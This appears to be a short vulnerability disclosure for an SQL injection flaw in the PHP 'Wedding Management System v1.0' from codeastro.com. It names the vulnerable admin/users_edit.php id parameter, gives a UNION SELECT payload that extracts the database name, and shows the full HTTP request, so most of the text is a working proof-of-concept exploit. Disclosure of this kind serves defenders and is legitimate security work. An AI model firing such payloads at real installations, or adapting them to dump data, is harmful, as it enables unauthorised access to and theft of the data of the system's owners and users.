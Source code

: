 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\users_edit.php

Vulnerability location: /Wedding-Management/admin/users_edit.php?id=, id

[+] Payload: id=-8%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/users_edit.php?id=-8%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984768-2a9258f8-ba73-4244-bfc4-9557f0b8d35a.png)

![image](https://user-images.githubusercontent.com/54017627/167984775-2fd88145-e703-487b-b3cb-6fbb55a6f904.png)

